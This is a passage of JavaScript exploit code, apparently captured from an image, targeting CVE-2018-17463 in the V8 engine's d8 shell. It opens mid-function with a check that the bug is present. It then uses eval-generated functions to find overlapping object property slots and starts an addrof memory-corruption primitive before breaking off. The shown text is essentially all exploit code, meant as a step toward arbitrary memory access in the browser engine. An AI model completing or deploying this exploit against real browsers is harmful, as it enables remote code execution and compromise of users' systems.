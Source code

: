 ```plain

  for (let i = 0; i < 10000; i++) {
    let x = { a: 0x1234 };
    x.b = 0x5678;
    let res = vuln(x);
    if (res != 0x5678) {
      log("CVE-2018-17463 exists in the d8");
      return;
    }

  }
  throw "bad d8 version";

}

function getObj(values) {
  let obj = { a: 1234 };
  for (let i = 0; i < 32; i++) {
    Object.defineProperty(obj, 'b' + i, {
      writable: true,
      value: values[i]
    });
  }
  return obj;
}

let p1, p2;

function findOverlapping() {
  let names = [];
  for (let i = 0; i < 32; i++) {
    names[i] = 'b' + i;
  }

  eval(`
    function vuln(obj) {
      obj.a;
      this.Object.create(obj);
      ${names.map((b) => `let ${b} = obj.${b};`).join('\n')}
      return [${names.join(', ')}];
    }
  `)

  let values = [];
  for (let i = 1; i < 32; i++) {
    values[i] = -i;
  }

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    for (let i = 1; i < res.length; i++) {
      if (i !== -res[i] && res[i] < 0 && res[i] > -32) {
        [p1, p2] = [i, -res[i]];
        return;
      }
    }
  }
  throw "[!] Failed to find overlapping";
}

function addrof(obj) {
  eval(`
  function vuln(obj) {
```
